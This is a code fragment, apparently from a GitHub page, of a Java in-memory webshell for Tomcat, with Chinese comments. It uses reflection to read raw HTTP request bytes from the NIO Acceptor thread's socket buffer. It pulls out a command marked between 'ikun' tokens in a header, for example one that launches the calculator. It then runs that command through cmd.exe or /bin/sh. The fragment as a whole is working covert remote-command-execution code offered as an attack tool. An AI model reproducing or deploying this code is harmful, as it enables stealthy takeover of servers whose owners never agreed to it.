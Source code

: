 ```bash
                if (!cmd.equals("")){
                    String[] cmds = System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};
                    byte[] result = new java.util.Scanner(new ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next().getBytes();
                    // 暂时无法回显
                    // getResponse(result);
                }
            } catch (Exception e) {
//                e.printStackTrace();
            }

            return super.getClientCertProvider();
        }

        // 从 socket 中获取参数
        // 位置 Thread.getThreads()[15].target.this$0.pollers[0].selector.channelArray[1].attachment.socket.appReadBufHandler.byteBuffer.hb
        public String getRequest() {
            // 获取当前线程的所有线程
            Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
            for (Thread thread : threads) {
                try {
                    // 需要获取线程的特征包含Acceptor
                    if (thread.getName().contains("Acceptor") && thread.getName().contains("http-nio")) {
                        Object[] nioEndpointPollerArrays = (Object[]) getField(getField(getField(thread,"target"),"this$0"),"pollers");
                        for (Object nioEndpointPollerArray : nioEndpointPollerArrays){
                            Object[] channelArrays = (Object[]) getField(getField(nioEndpointPollerArray,"selector"),"channelArray");
                            for (Object obj : channelArrays){
                                if (obj != null){
                                    byte[] bytes = (byte[]) getField(getField(getField(getField(getField(obj,"attachment"),"socket"),"appReadBufHandler"),"byteBuffer"),"hb");
                                    String cmd = new String(bytes);
                                    return cmd;
                                }
                            }
                        }
                    }
                } catch (Exception e) {
                    continue;
                }
            }
            return "";
        }

        // 解析字符串获取 cmd 字符串
        public String getCmd(String str){
            // HTTP 报文头中需要添加例如，cmd: ikuncalcikun，意为命令执行启动计算器
            String cmd = str.substring(str.indexOf("ikun")+4 , str.lastIndexOf("ikun"));
            return cmd;
        }
    }
```

